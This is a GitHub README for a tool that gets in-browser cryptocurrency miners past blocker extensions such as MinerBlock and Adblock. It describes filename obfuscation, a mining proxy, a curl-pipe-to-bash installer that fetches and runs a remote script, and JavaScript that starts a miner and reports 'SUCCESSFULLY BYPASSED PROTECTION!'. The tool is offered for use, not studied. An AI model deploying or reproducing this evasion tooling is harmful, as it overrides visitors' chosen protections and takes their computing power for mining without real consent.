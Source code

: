 # AntiMinerblock
This script attempts to bypass extensions or network blocks that prevent the use of online cryptocurrency miners.

## 100% effectiveness from tested extensions
* MinerBlock
* AntiMiner
* Adblock (all lists enabled)
* Adblock Plus
### Test it at: https://skyrisbactera.com/antiminerblock/test.html

## Features
* 100% success rate
* Obfuscates filenames per server
* Automatically creates proxy (using coin-hive-stratum)
* Random port
* Interactive setup

## Installation
### Ubuntu/Unix
First, make sure you have Node.js installed:
https://nodejs.org/en/download/package-manager/

Navigate to your server's scripts directory and run
```bash
bash <(curl -s https://raw.githubusercontent.com/SkyrisBactera/AntiMinerblock/master/setup.sh)
```
Then, add the script tag that the file generates to every HTML file you want to be protected. That's it!
### Windows
Not implemented yet (you can use cygwin for now)

## Usage
Call loadCryptominer, which will return a miner, and will return a value 0 to 4 referring to whether or not it worked.
```
0 - Remote coinhive
1 - Local coinhive with proxy
2 - Authedmine
3 - Crypto-loot
4 - Cloudcoins
5 - All blocked
6 - Script not blocked, but failure creating miner instance
```

Example:
```javascript
loadCryptominer(function(miner, status) {
  //Code that mines
  //For example:
  if (status == 5 || status == 6) {
    console.log("TEST FAILED!")
  } else {
    console.log("SUCCESSFULLY BYPASSED PROTECTION!")
  }
  miner.start();
  // Update stats once per second
  setInterval(function() {
    var hashesPerSecond = miner.getHashesPerSecond();
    var totalHashes = miner.getTotalHashes();
    var acceptedHashes = miner.getAcceptedHashes();
    console.log(hashesPerSecond, totalHashes, acceptedHashes)
    }, 1000);
});
```
## Donate!
If you appreciate this project, feel free to send me some Monero at:
```424kUkn7pU7SVF4qmbzVt6fLPRFw6Q1v7RmVq4qE9sE2V5dyhZoGdWHDUFui85SfhVTfmDN3CzcYDQSwo41z3AuLDzU3qQt```

or just use PayPal:
```davis@skyrisbactera.com```
